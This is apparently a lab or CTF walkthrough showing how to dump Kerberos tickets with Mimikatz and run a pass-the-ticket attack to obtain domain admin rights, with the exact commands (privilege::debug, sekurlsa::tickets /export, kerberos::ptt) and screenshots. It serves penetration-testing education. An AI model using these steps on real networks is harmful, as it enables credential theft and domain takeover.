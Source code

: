 # Prepare Mimikatz & Dump Tickets -

You
 will need to run the command prompt as an administrator: use the same 
credentials as you did to get into the machine. If you don't have an 
elevated command prompt mimikatz will not work properly.

1.) `cd Downloads` - navigate to the directory mimikatz is in

2.) `mimikatz.exe` - run mimikatz

3.) `privilege::debug` -
 Ensure this outputs [output '20' OK] if it does not that means you do 
not have the administrator privileges to properly run mimikatz

![https://i.imgur.com/SJQGplV.png](https://i.imgur.com/SJQGplV.png)

4.) `sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

![https://i.imgur.com/xC0L5Kf.png](https://i.imgur.com/xC0L5Kf.png)

When
 looking for which ticket to impersonate I would recommend looking for 
an administrator ticket from the krbtgt just like the one outlined in 
red above.

# Pass the Ticket w/ Mimikatz

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

1.) `kerberos::ptt <ticket>` -
 run this command inside of mimikatz with the ticket that you harvested 
from earlier. It will cache and impersonate the given ticket

![https://i.imgur.com/DwXmm8Z.png](https://i.imgur.com/DwXmm8Z.png)

2.) `klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

We will not be using mimikatz for the rest of the attack.

![https://i.imgur.com/GgxDm9k.png](https://i.imgur.com/GgxDm9k.png)

3.) You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

![https://i.imgur.com/9nxjeTS.png](https://i.imgur.com/9nxjeTS.png)

Note
 that this is only a POC to understand how to pass the ticket and gain 
domain admin the way that you approach passing the ticket may be 
different based on what kind of engagement you're in so do not take this
 as a definitive guide of how to run this attack.
